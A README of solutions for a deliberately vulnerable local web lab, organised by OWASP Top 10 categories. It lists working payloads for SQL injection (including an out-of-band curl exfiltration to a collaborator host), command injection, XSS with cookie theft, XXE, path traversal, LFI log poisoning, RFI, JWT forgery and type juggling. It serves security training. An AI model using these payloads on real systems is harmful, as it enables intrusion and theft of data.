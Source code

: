 # Lab-solutions
Lab solutions

## Open redirect(BAC)
http://127.0.0.1/bac/openr/index.php?redirect=yoursite

## IDOR
Login to account using username & password
http://127.0.0.1/bac/idor/home.php?acnumber=2233445577  change acnumber value to 2233445566(vertical privesc) to 2233445588(horizantol)

## Cryptographic failure
Fuzz the site
http://127.0.0.1/crypt/FUZZ  you will get secret.db file download it & open it with sqlieditor crack the password using crackstation.net & log in to admin

## Injections
### command
use ; semicolon with ip ex: 127.0.0.1;whoami

### SQLI(put a single quote in ID it returns SQLI error message)
version extract using error based sqli
1'or 1=1 in (LEFT(version(), 1) = '1')#    - first char 1 in version it returns all columns data
1'or 1=1 in (LEFT(version(), 2) = '10')#   - second char 10 in version it returns all columns data
1'or 1=1 in (LEFT(version(), 3) = '10.')#  - third char 10. in version it returns all columns data
so the version number is 10. so on

### Union
order by to guess columns
1' order by 3#  upto 3 no errors after 3 error means total columns are 3

### union query to extract data from columns
1'union select null,@@version,null #  getting version
1'union select null,schema_name,null from information_schema.schemata#   -extract databases
1'union select null,table_name,null from information_schema.tables where table_schema='databasenamefromabove'#  -extract tablenames
1'union select null,column_name,null from information_schema.columns where table_schema='databasenamefromabove' and table_name='table_namefromabove'#
1'union select null,column_name_extractdata,null from tablename#  - get datafrom a specific column

### Boolean(no errors -data disappear based true false condition)
1'and if (1=1, (LEFT(version(), 1) = '1'), 'false')#  -first char is 1 and data  appear
1'and if (1=1, (LEFT(version(), 2) = '10'), 'false')#  - second char is 0 and data appear
so the version is 10

### delay
1' or sleep(5)#

### OOB sqli
';COPY (SELECT version()) TO PROGRAM 'curl -G burpcollaborator?data=$(cat)'--   you will receive data on your burpcollaborator

## XSS
### Rxss
<script>alert(123)</script>
### Sxss
<script>alert(123)</script>
### DOM
http://127.0.0.1/inject/xss/dom.html?default=<script>alert(123)</script>
### BLind
submit your comment payload(<script>alert(123)</script>) on comments page login to admin panel it will trigger xss
use a cookie stealing payload to steal admin cookie

## Insecure design
go to reset password page & use username admin & bruteforce the OTP it will give a password & login to admin account

## Security misconfiguration
create  a .xml file & add below data then upload it the portal you can see /etc/passwd file contents
*** <!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]>
<root>
&test;
</root>
***

## Vulnerable & outdated components
Fuzz the files & you will find admin endpoint with login page
http://127.0.0.1/wbce/admin/login/  - use admin/password deault creds to login its wbce vulnerable version. exploit it and gain code execution

## identification & Authentication failure
its a input type juggling vulnerability in php
capture login request just replace password= value in body to password[]=randomvalue  you can login to admin account

## software & data integrity failure
login to user account with details on login portal
then you can see JWT on request & response header. just decode it and replace username with admin. encode the JWT & submit. you can all admin data

## Security logging & monitoring
Fuzz for log files you will find access.log file & and the attack is bruteforce you can check logs


## SSRF
http://127.0.0.1/ssrf/index.php?page=burpcollaborator  you can get a dummy secret Authorization header

## Path traversal
http://127.0.0.1/pathtr/index.php?page=../../../../../../etc/passwd

## File inclusion
### LFI
http://127.0.0.1/fileinc/index.php?page=../../../../../var/log/apache2/access.log     - you can access log file. perform log poison to get code exection
then submit your php system function payload using Useragent & access it over access.log and your parameter. you will code execution.

### RFI
host your own server with a php system function based payload and access it through page parameter
http://127.0.0.1/fileinc/index.php?page=http://yourserver/code.php   - it will execute the code.php file & show output on screen
